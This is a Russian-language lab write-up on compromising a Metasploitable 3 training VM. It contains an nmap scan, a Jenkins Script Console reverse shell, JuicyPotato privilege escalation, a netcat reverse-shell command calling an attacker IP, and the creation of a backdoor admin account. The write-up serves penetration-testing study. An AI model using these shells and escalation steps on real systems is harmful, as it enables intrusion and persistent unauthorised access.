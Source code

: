 Получить доступ к Metasploitable 3 используя вашу модификацию эксплойта [https://github.com/worawit/MS17-010](https://github.com/worawit/MS17-010)
Вариант повышенной сложности: обеспечить себе доступ к системе не выполняя "вредоносного" кода и убедиться в работоспособности указанного метода: например, через добавление нового администратора и включение доступа по RDP для него или через получение учетных данных из sam и system.


>[!tip]- nmap
>PORT      STATE SERVICE              VERSION
21/tcp    open  ftp                  Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open  ssh                  OpenSSH 7.1 (protocol 2.0)
| ssh-hostkey: 
|   2048 e8:ae:53:fc:31:b4:e6:53:68:89:d6:80:b5:8f:63:4e (RSA)
|_  521 30:d9:ff:b1:53:a3:a7:8d:13:2f:4d:50:4c:8a:1b:da (ECDSA)
80/tcp    open  http                 Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc                Microsoft Windows RPC
139/tcp   open  netbios-ssn          Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds         Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds
1617/tcp  open  java-rmi             Java RMI
| rmi-dumpregistry: 
|   jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
|     @10.0.0.3:49161
|     extends
|       java.rmi.server.RemoteStub
|       extends
|_        java.rmi.server.RemoteObject
3306/tcp  open  mysql                MySQL 5.5.20-log
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.20-log
|   Thread ID: 8
|   Capabilities flags: 63487
|   Some Capabilities: FoundRows, Speaks41ProtocolOld, Support41Auth, Speaks41ProtocolNew, LongColumnFlag, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, ODBCClient, IgnoreSigpipes, ConnectWithDatabase, InteractiveClient, SupportsTransactions, SupportsLoadDataLocal, SupportsCompression, LongPassword, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: fQB81+#n"Z!5'_.b(;3,
|_  Auth Plugin Name: mysql_native_password
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2024-12-05T12:05:26+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: VAGRANT-2008R2
|   NetBIOS_Domain_Name: VAGRANT-2008R2
|   NetBIOS_Computer_Name: VAGRANT-2008R2
|   DNS_Domain_Name: vagrant-2008R2
|   DNS_Computer_Name: vagrant-2008R2
|   Product_Version: 6.1.7601
|_  System_Time: 2024-12-05T12:04:37+00:00
| ssl-cert: Subject: commonName=vagrant-2008R2
| Not valid before: 2024-12-01T11:05:10
|_Not valid after:  2025-06-02T11:05:10
3700/tcp  open  giop                 CORBA naming service
3820/tcp  open  ssl/giop             CORBA naming service
|_ssl-date: 2024-12-05T12:05:26+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=localhost/organizationName=Oracle Corporation/stateOrProvinceName=California/countryName=US
| Not valid before: 2013-05-15T05:33:38
|_Not valid after:  2023-05-13T05:33:38
3920/tcp  open  ssl/exasoftport1?
|_ssl-date: 2024-12-05T12:05:26+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=localhost/organizationName=Oracle Corporation/stateOrProvinceName=California/countryName=US
| Not valid before: 2013-05-15T05:33:38
|_Not valid after:  2023-05-13T05:33:38
4848/tcp  open  ssl/http             Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
|_http-title: Site doesn't have a title (text/html;charset=UTF-8).
|_ssl-date: 2024-12-05T12:05:26+00:00; +1s from scanner time.
|_http-server-header: GlassFish Server Open Source Edition  4.0 
| ssl-cert: Subject: commonName=localhost/organizationName=Oracle Corporation/stateOrProvinceName=California/countryName=US
| Not valid before: 2013-05-15T05:33:38
|_Not valid after:  2023-05-13T05:33:38
5985/tcp  open  http                 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7676/tcp  open  java-message-service Java Message Service 301
8009/tcp  open  ajp13                Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8019/tcp  open  qbdb?
8020/tcp  open  http                 Apache httpd
|_http-title: Site doesn't have a title (text/html;charset=UTF-8).
|_http-server-header: Apache
| http-methods: 
|_  Potentially risky methods: PUT DELETE
8022/tcp  open  http                 Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-title: Site doesn't have a title (text/html;charset=UTF-8).
|_http-server-header: Apache-Coyote/1.1
8027/tcp  open  papachi-p2p-srv?
8028/tcp  open  postgresql           PostgreSQL DB
8031/tcp  open  ssl/unknown
8032/tcp  open  desktop-central      ManageEngine Desktop Central DesktopCentralServer
8080/tcp  open  http                 Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: GlassFish Server - Server Running
| http-methods: 
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: GlassFish Server Open Source Edition  4.0 
8181/tcp  open  ssl/http             Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
| http-methods: 
|_  Potentially risky methods: PUT DELETE TRACE
|_ssl-date: 2024-12-05T12:05:26+00:00; 0s from scanner time.
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=localhost/organizationName=Oracle Corporation/stateOrProvinceName=California/countryName=US
| Not valid before: 2013-05-15T05:33:38
|_Not valid after:  2023-05-13T05:33:38
|_http-server-header: GlassFish Server Open Source Edition  4.0 
8282/tcp  open  http                 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/8.0.33
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
8383/tcp  open  http                 Apache httpd
|_http-server-header: Apache
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-title: 400 Bad Request
8443/tcp  open  ssl/https-alt?
8444/tcp  open  desktop-central      ManageEngine Desktop Central DesktopCentralServer
8484/tcp  open  http                 Jetty winstone-2.8
|_http-server-header: Jetty(winstone-2.8)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Dashboard [Jenkins]
8585/tcp  open  http                 Apache httpd 2.2.21 ((Win64) PHP/5.3.10 DAV/2)
|_http-title: WAMPSERVER Homepage
|_http-server-header: Apache/2.2.21 (Win64) PHP/5.3.10 DAV/2
8686/tcp  open  java-rmi             Java RMI
| rmi-dumpregistry: 
|   vagrant-2008R2/7676/jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
|     @10.0.0.3:49304
|     extends
|       java.rmi.server.RemoteStub
|       extends
|         java.rmi.server.RemoteObject
|   jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
|     @10.0.0.3:8686
|     extends
|       java.rmi.server.RemoteStub
|       extends
|_        java.rmi.server.RemoteObject
9200/tcp  open  wap-wsp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=UTF-8
|     Content-Length: 80
|     handler found for uri [/nice%20ports%2C/Tri%6Eity.txt%2ebak] and method [GET]
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: application/json; charset=UTF-8
|     Content-Length: 316
|     "status" : 200,
|     "name" : "Jebediah Guthrie",
|     "version" : {
|     "number" : "1.1.1",
|     "build_hash" : "f1585f096d3f3985e73456debdc1a0745f512bbc",
|     "build_timestamp" : "2014-04-16T14:27:12Z",
|     "build_snapshot" : false,
|     "lucene_version" : "4.7"
|     "tagline" : "You Know, for Search"
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; charset=UTF-8
|     Content-Length: 0
|   RTSPRequest, SIPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain; charset=UTF-8
|_    Content-Length: 0
9300/tcp  open  vrace?
47001/tcp open  http                 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc                Microsoft Windows RPC
49153/tcp open  msrpc                Microsoft Windows RPC
49154/tcp open  msrpc                Microsoft Windows RPC
49156/tcp open  msrpc                Microsoft Windows RPC
49158/tcp open  unknown
49161/tcp open  java-rmi             Java RMI
49162/tcp open  tcpwrapped
49182/tcp open  msrpc                Microsoft Windows RPC
49245/tcp open  msrpc                Microsoft Windows RPC
49276/tcp open  ssh                  Apache Mina sshd 0.8.0 (protocol 2.0)
49277/tcp open  jenkins-listener     Jenkins TcpSlaveAgentListener
49304/tcp open  java-rmi             Java RMI
49315/tcp open  unknown
49316/tcp open  unknown
49317/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9200-TCP:V=7.94SVN%I=7%D=12/5%Time=67519636%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,193,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\x20application
SF:/json;\x20charset=UTF-8\r\nContent-Length:\x20316\r\n\r\n{\r\n\x20\x20\
SF:"status\"\x20:\x20200,\r\n\x20\x20\"name\"\x20:\x20\"Jebediah\x20Guthri
SF:e\",\r\n\x20\x20\"version\"\x20:\x20{\r\n\x20\x20\x20\x20\"number\"\x20
SF::\x20\"1\.1\.1\",\r\n\x20\x20\x20\x20\"build_hash\"\x20:\x20\"f1585f096
SF:d3f3985e73456debdc1a0745f512bbc\",\r\n\x20\x20\x20\x20\"build_timestamp
SF:\"\x20:\x20\"2014-04-16T14:27:12Z\",\r\n\x20\x20\x20\x20\"build_snapsho
SF:t\"\x20:\x20false,\r\n\x20\x20\x20\x20\"lucene_version\"\x20:\x20\"4\.7
SF:\"\r\n\x20\x20},\r\n\x20\x20\"tagline\"\x20:\x20\"You\x20Know,\x20for\x
SF:20Search\"\r\n}\n")%r(HTTPOptions,4F,"HTTP/1\.0\x20200\x20OK\r\nContent
SF:-Type:\x20text/plain;\x20charset=UTF-8\r\nContent-Length:\x200\r\n\r\n"
SF:)%r(RTSPRequest,4F,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/pla
SF:in;\x20charset=UTF-8\r\nContent-Length:\x200\r\n\r\n")%r(FourOhFourRequ
SF:est,A9,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla
SF:in;\x20charset=UTF-8\r\nContent-Length:\x2080\r\n\r\nNo\x20handler\x20f
SF:ound\x20for\x20uri\x20\[/nice%20ports%2C/Tri%6Eity\.txt%2ebak\]\x20and\
SF:x20method\x20\[GET\]")%r(SIPOptions,4F,"HTTP/1\.1\x20200\x20OK\r\nConte
SF:nt-Type:\x20text/plain;\x20charset=UTF-8\r\nContent-Length:\x200\r\n\r\
SF:n");
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; Device: remote management; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-12-05T12:04:41
|_  start_date: 2024-12-05T11:43:54
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: vagrant-2008R2
|   NetBIOS computer name: VAGRANT-2008R2\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-12-05T04:04:35-08:00
| smb-security-mode: 
|   account_used: blank
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: VAGRANT-2008R2, NetBIOS user: unknown, NetBIOS MAC: 08:00:27:47:6e:c3 (Oracle VirtualBox v
|_clock-skew: mean: 53m20s, deviation: 2h40m00s, median: 0s

проверим сайты (на порту 8484)
![[Pasted image 20241205174113.png]]
и видим что у нас есть доступ
исследуем сайт и найдем Script Console. Изучив ее мы можем сгенерировать rev shell на java 
![[Pasted image 20241205174210.png]]

Запускаем и получаем соединение. Проверим кто мы
![[Pasted image 20241205174248.png]]

![[Pasted image 20241205174301.png]]

у нас есть SeImpersonatePrivilege и значит что может сработать одна из картошек

путем проб и ошибок находим что juicypotato работает. Значит попробуем получить rev shell от системы

Скачаем JuicyPotato,nc64.exe и создадим unl.bat в котором пропишем "С:\tools\nc.exe 192.168.56.111 1333 -e bash"

Загружаем все на metasploitable и пробуем запустить
![[Pasted image 20241205174549.png]]

Получаем обратный шелл от системы
![[Pasted image 20241205174637.png]]
![[Pasted image 20241205174651.png]]

Создадим юзера с правами админа hahacker и паролем hacker1333
![[Pasted image 20241205174735.png]]

Проверим его работу с помощью ssh
![[Pasted image 20241205174809.png]]